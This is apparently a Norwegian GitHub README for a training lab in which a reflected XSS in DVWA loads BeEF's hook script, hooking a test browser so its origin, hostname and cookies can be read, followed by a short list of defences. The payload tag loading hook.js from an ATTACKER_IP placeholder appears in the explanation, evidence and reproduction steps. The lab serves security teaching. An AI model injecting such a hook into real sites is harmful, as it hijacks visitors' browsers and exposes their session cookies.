




# BeEF + XSS mot DVWA — lab

[](LICENSE)


En fiktiv, lukket lab som demonstrerer hvordan en **refleksiv XSS** i DVWA kan brukes til å **hooke en nettleser** i **BeEF**. Deretter inspiseres klientdata i BeEF-panelet for å illustrere risikoen.

> **Ansvar/Etikk:** Dette er kun demonstrasjon i eget labmiljø. Ikke test mot systemer du ikke eier eller har eksplisitt tillatelse til. Maskér alltid sensitive verdier (f.eks. PHPSESSIONID) i skjermbilder.

---

## Mål
- Utløse en **XSS** i DVWA og laste inn BeEFs hook-skript.
- Få offerets nettleser til å dukke opp som **hooked** i BeEF.
- Vise at BeEF kan lese **origin**, **cookies** og **hostname** fra klienten.

## Laboppsett (eksempel)
- **Angriper:** Kali Linux med BeEF (Hook-URL: `http://ATTACKER_IP:3000/hook.js`)
- **Mål:** DVWA (Reflected XSS, Low)
- **Offer:** Nettleser i samme labnett
- IP-adressene i bildene er eksempler; bruk dine egne.

## Hvorfor dette fungerer (kort forklart)
XSS lar oss kjøre vilkårlig JavaScript i offerets nettleser. Når vi injiserer:
```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```
lastes BeEFs **hook** inn i offerets DOM. Nettleseren etablerer da en kontrollkanal tilbake til BeEF-serveren. I BeEFs UI blir offeret synlig, og vi kan lese/operere på utvalgte nettleser-egenskaper (f.eks. cookies, origin). Dette visualiserer risikoen ved XSS.

---

## Evidens (skjermbilder)

**1) BeEF kjører (server/UI oppe)**


**2) XSS i DVWA (injiserer hook)**
> Payload demonstrert i DVWA Reflected XSS: `<script src="http://ATTACKER_IP:3000/hook.js"></script>`


**3) Offer “hooked” i BeEF**


**4) Details-fanen (maskér sensitive felter)**
> Her ser du f.eks. `browser.window.origin`, `browser.window.hostname` og `browser.window.cookies`.


---

## Reproduser (kort)
1. **Start BeEF** på angripermaskinen (notér hook-URL, typisk `http://ATTACKER_IP:3000/hook.js`), og logg inn i UI.
2. **Sett DVWA til Low** (Security → Low).
3. Gå til **XSS (Reflected)** i DVWA og injisér:
   ```html
   <script src="http://ATTACKER_IP:3000/hook.js"></script>
   ```
4. Last siden i offer-nettleseren → sjekk BeEF-panelet: offeret vises som **hooked**.  
5. Åpne **Details** for offeret og observer origin/hostname/cookies. **Maskér session-ID** før publisering.

---

## Hva bildene viser (hurtigkart)
- `images/beef-start.png` – BeEF-UI kjører (panel oppe).
- `images/dvwa-inject.png` – Hook injisert via DVWA XSS (Reflected).
- `images/beef-victim-listed.png` – Nettleser dukker opp som hooked i BeEF.
- `images/beef-details.png` – Details-fanen (origin, cookies, hostname) – **sladd cookies**.

### Vedlegg (valgfritt – ekstra kontekst)
- `images/beef-auth.png` – BeEF innloggingsskjerm.  
- `images/beef-console.png` – Konsollutskrift ved oppstart av BeEF.  
- `images/beef-console-and-panel.png` – Konsoll + panel samtidig; viser “New Hooked Browser…”.  
- `images/beef-config-hook.png` – Utdrag av hook-konfig (`hook_file`, `hook_session_name`).

---

## Forsvarstiltak (kort)
- **Input-validering & escaping** på server og klient.
- **CSP** (Content Security Policy) for å begrense eksterne skript.
- **HttpOnly/Secure/SameSite** for cookies; session-hygiene.
- Rammeverksoppdateringer, sikkerhetstester i CI/CD og bevisstgjøring.

## Lisens
MIT
